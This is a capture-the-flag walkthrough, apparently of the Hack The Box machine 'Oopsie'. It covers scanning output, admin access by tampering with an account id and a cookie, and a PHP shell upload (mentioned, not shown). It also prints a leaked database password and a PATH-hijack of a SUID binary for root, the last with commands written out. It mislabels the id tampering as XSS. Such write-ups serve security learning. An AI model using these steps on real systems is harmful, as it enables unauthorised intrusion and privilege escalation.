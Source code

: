 # Oopsie

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### gobuster

```
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.148.64/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.148.64/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.148.64/images/]
/index.php            (Status: 200) [Size: 10932]
/js                   (Status: 301) [Size: 311] [--> http://10.129.148.64/js/]
/server-status        (Status: 403) [Size: 278]
/themes               (Status: 301) [Size: 315] [--> http://10.129.148.64/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.148.64/uploads/]
```

We visit the website for further enumeration

from source code we see a login script:

`<script src="/cdn-cgi/login/script.js"></script>`

Now on login page `http://10.129.148.64/cdn-cgi/login/`

`2233 guest guest@megacorp.com`

Accounts page

`2 client client@client.htb`

We can modify url (xss)

changing `id` from 2 to 1 show us admin account

`http://10.129.148.64/cdn-cgi/login/admin.php?content=accounts&id=1`

`34322 admin admin@megacorp.com`

We modify our cookie to login as admin with its id and access uploads page

Now lets upload a php shell and catch a netcat connection

we then get access as `www-data`

Exploring web folders we find `db.php`

```
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php db.php index.php script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
```

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Ahh that robert...

```
$ cd home
$ ls
robert
$ cd robert
$ ls
user.txt
$ cat user.txt
```

We got User flag

## Privilege Escalation

first we need a TTY

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

check SUID and SGID

SUID  
`find / -perm /4000 2>/dev/null`

```
/snap/core/11420/bin/mount
/snap/core/11420/bin/ping
/snap/core/11420/bin/ping6
/snap/core/11420/bin/su
/snap/core/11420/bin/umount
/snap/core/11420/usr/bin/chfn
/snap/core/11420/usr/bin/chsh
/snap/core/11420/usr/bin/gpasswd
/snap/core/11420/usr/bin/newgrp
/snap/core/11420/usr/bin/passwd
/snap/core/11420/usr/bin/sudo
/snap/core/11420/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/11420/usr/lib/openssh/ssh-keysign
/snap/core/11420/usr/lib/snapd/snap-confine
/snap/core/11420/usr/sbin/pppd
/snap/core/11743/bin/mount
/snap/core/11743/bin/ping
/snap/core/11743/bin/ping6
/snap/core/11743/bin/su
/snap/core/11743/bin/umount
/snap/core/11743/usr/bin/chfn
/snap/core/11743/usr/bin/chsh
/snap/core/11743/usr/bin/gpasswd
/snap/core/11743/usr/bin/newgrp
/snap/core/11743/usr/bin/passwd
/snap/core/11743/usr/bin/sudo
/snap/core/11743/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/11743/usr/lib/openssh/ssh-keysign
/snap/core/11743/usr/lib/snapd/snap-confine
/snap/core/11743/usr/sbin/pppd
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

SGID  
`find / -perm /2000 2>/dev/null`

```
/snap/core/11420/etc/chatscripts
/snap/core/11420/etc/ppp/peers
/snap/core/11420/sbin/pam_extrausers_chkpwd
/snap/core/11420/sbin/unix_chkpwd
/snap/core/11420/usr/bin/chage
/snap/core/11420/usr/bin/crontab
/snap/core/11420/usr/bin/dotlockfile
...
```

value `6000` for both

anyway bugtracker in SUID

```
bugtracker
www-data@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
<cdn-cgi/login$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

switched to robert user with the password found in `db.php`

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!
```

When running bugtracker we notice its try to execute this command
`"cat /root/reports/BUG_ID"`

We could modify that to get root access as it reads in root directory

we also get good informations about filezila usage with BUG_ID from 1 to 3

Lets modify system acces to "cat" command
go /tmp (fav folder)

```
export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ echo '/bin/sh' > cat
echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +X cat
chmod +x cat
```

and that is how we got root now

`# rm cat` (just because its not needed anymore)

`# cd /root`

`# cat root.txt`

And we get root flag
